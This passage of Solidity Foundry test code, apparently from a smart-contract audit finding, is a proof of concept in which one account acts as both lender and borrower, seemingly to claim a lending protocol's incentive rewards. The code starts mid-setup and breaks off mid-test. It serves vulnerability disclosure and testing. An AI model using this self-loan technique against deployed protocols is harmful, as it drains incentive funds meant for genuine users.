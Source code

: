```solidity
            100
        );
        
        vm.stopPrank();
         LendOrder = DLOImplementation(lendOrderAddress);
        BorrowOrder = DBOImplementation(borrowOrderAddress);
    }



/////////////////////////////////////////////////////////////
        function testpoc() public{

         address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        address[] memory collateral = allDynamicData.getDynamicAddressArray(1);
        address[] memory incentiveToken = allDynamicData.getDynamicAddressArray(1);

        bool[] memory isLend = allDynamicData.getDynamicBoolArray(1);
        uint[] memory amount = allDynamicData.getDynamicUintArray(1);
        uint[] memory epochs = allDynamicData.getDynamicUintArray(1);

        principles[0] = AERO;
        collateral[0] = USDC;
        incentiveToken[0] = USDC;
        isLend[0] = false;
        amount[0] = 1e18;
        epochs[0] = 2;

         address[] memory tokensUsedAsBribes = allDynamicData
            .getDynamicAddressArray(1);
        tokensUsedAsBribes[0] = USDC;

        incentivesContract.whitelListCollateral(
            AERO,
            USDC,
            true
        );
        deal(USDC, address(this), 1000e18, false);
        IERC20(USDC).approve(address(incentivesContract), 1000e18);
        incentivesContract.incentivizePair(
            principles,
            incentiveToken,
            isLend,
            amount,
            epochs
        );

         vm.warp(block.timestamp + 15 days);
         
        address[][] memory tokensIncentives = new address[][](
            incentiveToken.length
        );
        tokensIncentives[0] = tokensUsedAsBribes;
        
        console.log("AERO balance before matchOffers",AEROContract.balanceOf(alice));
       
        //self-loan
        MatchOffers(); 
        
        //Alice receives her 100 AERO as a borrower, so Alice's AERO balance does not change
        //1000,000000000000000000 = 1000e18
        console.log("AERO balance after matchOffers",AEROContract.balanceOf(alice));
        //Alice = lender = borrower
```